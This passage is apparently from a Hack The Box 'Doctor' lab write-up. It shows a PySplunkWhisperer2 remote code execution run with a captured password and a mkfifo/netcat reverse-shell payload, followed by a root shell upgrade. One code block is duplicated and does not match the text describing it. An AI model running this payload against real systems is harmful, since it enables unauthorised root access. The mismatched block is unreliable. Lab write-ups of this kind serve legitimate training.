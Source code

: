 
I look at my web server and saw that it worked:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/doctor]
└─$ sudo python3 -m http.server 80                                                                                1 ⨯
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [22/Sep/2021 22:21:46] code 404, message File not found
10.10.10.209 - - [22/Sep/2021 22:21:46] "GET /test.html HTTP/1.1" 404 -
```

Through the shell as shaun, I can confirm that netcat is installed:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/doctor]
└─$ sudo python3 -m http.server 80                                                                                1 ⨯
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [22/Sep/2021 22:21:46] code 404, message File not found
10.10.10.209 - - [22/Sep/2021 22:21:46] "GET /test.html HTTP/1.1" 404 -
```

I should now be able to spawn a reverse shell using netcat (need to use mkfifo one, the `-e` option is not working):

```bash
┌──(user㉿KaliVM)-[/tools/LinPEAS/SplunkWhisperer2/PySplunkWhisperer2]
└─$ python3 PySplunkWhisperer2_remote.py --host doctor.htb --lhost 10.10.16.6 --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 443 >/tmp/f"                               
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpflsomzda.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.16.6:8181/
10.10.10.209 - - [22/Sep/2021 22:24:43] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```

Now, look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/doctor]
└─$ nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.209] 40320
/bin/sh: 0: can't access tty; job control turned off
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@doctor:/# export TERM=xterm
export TERM=xterm
root@doctor:/# ^Z
zsh: suspended  nc -lvnp 443

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/doctor]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

root@doctor:/# ^C
root@doctor:/# id
```